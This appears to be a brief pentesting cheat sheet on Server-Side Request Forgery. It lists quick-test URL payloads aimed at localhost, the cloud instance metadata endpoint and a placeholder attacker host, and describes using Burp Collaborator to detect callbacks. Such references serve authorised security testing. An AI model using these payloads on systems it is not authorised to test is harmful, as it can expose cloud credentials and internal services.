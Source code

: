 # Server-Side Request Forgery (SSRF)

## Quick Test

url=http://127.0.0.1:80
url=http://169.254.169.254/latest/meta-data/
url=http://<ATTACKER_IP>:8000/


## With Burp Collaborator

- Replace target URL with collaborator payload
- Monitor for callbacks

